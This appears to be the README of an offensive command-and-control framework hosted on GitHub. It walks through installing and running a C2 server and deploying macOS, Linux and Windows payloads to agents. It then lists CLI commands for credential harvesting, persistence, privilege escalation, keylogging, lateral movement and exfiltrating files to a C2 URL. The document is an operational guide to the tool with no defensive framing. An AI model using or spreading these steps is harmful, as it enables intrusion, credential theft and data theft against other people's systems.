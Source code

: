 Installation and Setup

Clone the Repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv source venv/bin/activate 
# On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh (Work in progress)
    payloads/linux_payload.sh (Work in progress)
    payloads/windows_payload.ps1 (Work in progress)

Running the C2 Server

python c2_server.py CLI Usage

List Agents python cli.py list-agents

Deploy Payload python cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli.py generate-report

Send a Specific Command python cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli.py send-command <agent_id> cred_harvest

Persistence python cli.py send-command <agent_id> persistence

Privilege Escalation python cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli.py send-command <agent_id> keylogging

Lateral Movement python cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py
